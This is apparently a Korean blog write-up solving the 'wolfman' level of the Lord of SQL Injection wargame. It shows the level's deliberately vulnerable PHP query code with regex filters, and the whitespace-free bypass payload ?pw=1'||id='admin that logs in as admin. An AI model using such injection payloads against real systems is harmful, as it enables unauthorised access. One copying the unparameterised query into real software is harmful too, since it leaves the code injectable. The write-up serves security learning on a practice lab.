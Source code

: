 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - wolfman 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 첫 줄의 마지막 문제인 `wolfman` 문제이다.  

이번에는 `Blind SQL Injection`이 아니다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw=''
---------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

첨엔 이 전에 나왔던 문제랑 뭐가 다른건가 했는데 이제보니 `공백`에 대한 필터링이 추가되어 있다.  

당연한 얘기지만 이 경우 이 전 문제들을 풀었던 것 처럼 `1' or id='admin`을 사용할 수 없다.  

그래서 이번에는 `or`이라는 문자열 대신에 `||`을 사용했다.  

`or`을 사용 할 경우에는 `or id='admin` 처럼 무조건 공백이 들어가야 하지만, `||`는 공백 없이 `||id='admin`을 해도 잘 동작하기 때문이다.  

문제를 풀기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1'||id='admin
```

역시 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw='1'||id='admin'
-------------------------------------------------------------------------------------------------------

Hello admin
WOLFMAN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

`WOLFMAN Clear!!`
